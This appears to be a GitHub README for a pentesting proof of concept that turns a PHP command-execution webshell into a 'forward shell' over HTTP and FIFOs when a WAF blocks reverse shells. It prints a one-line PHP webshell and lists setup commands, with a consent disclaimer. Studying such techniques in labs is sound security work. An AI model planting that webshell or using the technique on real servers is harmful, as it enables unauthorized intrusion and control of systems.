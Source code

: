 # Forward Shell

When pentesting, we may encounter difficulties establishing Reverse Shell connections due to WAFs being present. 
Let's say we have the following PHP file on the Web Application we are trying to hack:

´´´php
  <?php system($_GET['cmd']); ?>
´´´

We can execute commands as the server, but this webshell is NOT a tty. It's not a full interactive console. 
If for some reason we couldn't get a Reverse Shell, we can get a Forward Shell with this script by making use of FIFOs and HTTP requests.

## Important

This is just a POC running in local with containers. If u want to use it in a real scenario, please do it with consent and always stay within the law.

## Execution 

´´´bash
git clone https://github.com/0x49414E/forwardShell.py
docker build .
docker run -dit <img>
python3.9 main.py
´´´
